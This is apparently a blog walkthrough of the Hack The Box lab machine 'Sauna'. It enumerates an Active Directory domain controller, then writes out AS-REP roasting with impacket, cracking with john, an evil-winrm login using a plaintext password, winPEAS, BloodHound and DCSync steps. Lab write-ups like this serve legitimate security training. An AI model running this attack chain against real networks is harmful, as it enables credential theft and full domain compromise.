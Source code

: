 ```yaml
---
layout: post
title: Hack The Box - Sauna
category: walkthrough
date:   2020-07-28 05:00:00
---
```


# ![sauna](/assets/img/sauna/sauna.png)  
# Sauna is a easy machine created by [egotisticalSW](https://www.hackthebox.eu/home/users/profile/94858)

# Enum  
  
###  nmap
  
>Starting Nmap 7.70 ( https://nmap.org ) at 2020-07-28 02:53 -03  
>Nmap scan report for 10.10.10.175  
>Host is up (0.21s latency).  
>Not shown: 5920 filtered ports  
>PORT     STATE SERVICE       VERSION  
>53/tcp   open  domain?  
>| fingerprint-strings:   
>|   DNSVersionBindReqTCP: 
>|     version  
>|_    bind  
>80/tcp   open  http          Microsoft IIS httpd 10.0  
>| http-methods: 
>|_  Potentially risky methods: TRACE  
>|_http-server-header: Microsoft-IIS/10.0  
>|_http-title: Egotistical Bank :: Home  
>88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2020-07-28 12:57:59Z)  
>135/tcp  open  msrpc         Microsoft Windows RPC  
>139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn  
>389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: EGOTISTICAL-BANK.LOCAL0., Site: Default-First-Site-Name)  
>445/tcp  open  microsoft-ds?  
>464/tcp  open  kpasswd5?  
>593/tcp  open  ncacn\_http    Microsoft Windows RPC over HTTP 1.0  
>636/tcp  open  tcpwrapped  
>3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: EGOTISTICAL-BANK.LOCAL0., Site: Default-First-Site-Name)  
>3269/tcp open  tcpwrapped  
>5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)  
>|_http-server-header: Microsoft-HTTPAPI/2.0  
>|_http-title: Not Found  
>1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :  
>SF-Port53-TCP:V=7.70%I=7%D=7/28%Time=5F1FBD97%P=x86\_64-pc-linux-gnu%r(DNSV  
>SF:ersionBindReqTCP,20,"\0\x1e\0\x06\x81\x04\0\x01\0\0\0\0\0\0\x07version\  
>SF:x04bind\0\0\x10\0\x03");  
>Service Info: Host: SAUNA; OS: Windows; CPE: cpe:/o:microsoft:windows  
  3268
>Host script results:  
>|_clock-skew: mean: 7h03m31s, deviation: 0s, median: 7h03m31s  
>| smb2-security-mode: 
>|   2.02: 
>|_    Message signing enabled and required  
>| smb2-time: 
>|   date: 2020-07-28 10:00:17  
>|_  start_date: N/A  
  
>Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .  
>Nmap done: 1 IP address (1 host up) scanned in 308.65 seconds  
  
  
nmap output show me the domain egotistical-bank.local, this is the domain controller.  
nmap also show kerberos 88, IIS 80, ldap 389 and 3268, and 5985 using http, this port usually is WinRM.  
  
First thing I thought was [Kerberoasting](https://www.tarlogic.com/en/blog/how-to-attack-kerberos/)  
I used [impacket](https://github.com/ifconfig-me/impacket)'s GetADUser.py, but got nothing...  
  
In port 80 I got this page  
![index](/assets/img/sauna/sauna1.png)  
  
Searching something usefull I found usernames on page "About Us"  
![users](/assets/img/sauna/sauna2.png)  
  
I creted a wordlist with this names, and some possibilities...  
>f.smith  
>fsmith  
>h.bear  
>hbear  
>s.coins  
>scoins  
>btaylor  
>b.taylor  
>s.driver  
>sdriver  
  
My wordlist have a lot more, but there's no need of all...  
  
Now I can use impacket's GetNPUsers.py  
  
  
### Exploit
./GetNPUsers.py egotistical-bank.local/ -usersfile users.txt -request -no-pass -dc-ip 10.10.10.175 -format john  --outputfile hash  

![fsmithHash](/assets/img/sauna/sauna3.png)  

With the brute force of my friend john I cracked this hash  
  
john -w /usr/share/wordlists/rockyou.txt hash  
  
![passwd](/assets/img/sauna/sauna4.png)
  
The part I like most in attacking windows, is the  [evil](https://github.com/Hackplayers/evil-winrm) part
  
./evil-winrm.rb -i 10.10.10.175 -p Thestrokes23 -u fsmith  
  
![evilLogin](/assets/img/sauna/sauna5.png)  
  
### Privilege Escalation  
  
To privelige escalation in windows the first thing I use is [winPEAS.bat](https://raw.githubusercontent.com/carlospolop/privilege-escalation-awesome-scripts-suite/master/winPEAS/winPEASbat/winPEAS.bat)  
  
Uploaded winPEAS.bat with upload command of evil-winrm and executed it  
winPEAS spits a lot of informations about everything in the machine  
and found a pass for other user  
![svc](/assets/img/sauna/sauna6.png)  
  
Logged in as svc\_loanmgr and invoked the [hound](https://github.com/fox-it/BloodHound.py)  
  
![bloodHound](/assets/img/sauna/sauna7.png)  
  
ziped the json files and sent it to bloodhound  
  
The hound says: svc\_loanmgr is connected to egotistical-bank with getChangesAll and you should try a DCSYnc attack..  
  
![HoundHelp](/assets/img/sauna/sauna8.png)  
  
Let's get back to impacket  
  
![hashdump](/assets/img/sauna/sauna9.png)  
  
And evil again  

![evilAdmin](/assets/img/sauna/sauna10.png)
